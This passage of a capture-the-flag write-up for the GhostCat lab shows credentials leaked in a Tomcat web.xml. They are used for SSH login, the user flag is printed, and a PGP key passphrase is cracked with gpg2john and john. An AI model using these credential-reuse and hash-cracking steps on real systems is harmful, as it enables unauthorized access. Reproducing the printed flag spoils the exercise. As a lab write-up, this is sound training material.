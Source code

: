   ```
                        http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
    version="4.0"
    metadata-complete="true">
  
    <display-name>Welcome to Tomcat</display-name>
    <description>
       Welcome to GhostCat
          skyfuck:8730281lkjlkjdqlksalks
    </description>
  
  </web-app>
  ```
  
- Awesome! With obtained credentials `skyfuck:8730281lkjlkjdqlksalks`, I logged in with SSH and got into the system. Flags here I come!

---

## 🧍 User Privilege Escalation

- As with any other CTF, getting user flag is pretty simple and straightforward, just dig around and you'll find it!

  ```
  skyfuck@ubuntu:~$ whoami
  skyfuck
  
  skyfuck@ubuntu:~$ pwd
  /home/skyfuck
  
  skyfuck@ubuntu:~$ ls
  credential.pgp  tryhackme.asc
  skyfuck@ubuntu:~$ 
  
  
  skyfuck@ubuntu:/home/merlin$ cat user.txt
  THM{GhostCat_1s_so_cr4sy}
  ```
  
- User flag checked! So now moving to root. When I used `sudo -l` as this user I got permission denied which is fine, but the thing is, in his home directory there are two files that are important to us: `credential.pgp` and `tryhackme.asc`.
  
- So when I saw them, I immediately thought that after cracking them I'll get root credentials, but little did I know tho... Transfer those files to your Kali machine, convert `.asc` file into hash and crack it in order to get passphrase for cracking `.pgp`

  ```
  gpg2john tryhackme.asc > keyhash.txt
  
  john --wordlist=/rockyou.txt keyhash.txt 
  alexandru        (tryhackme)
  ```
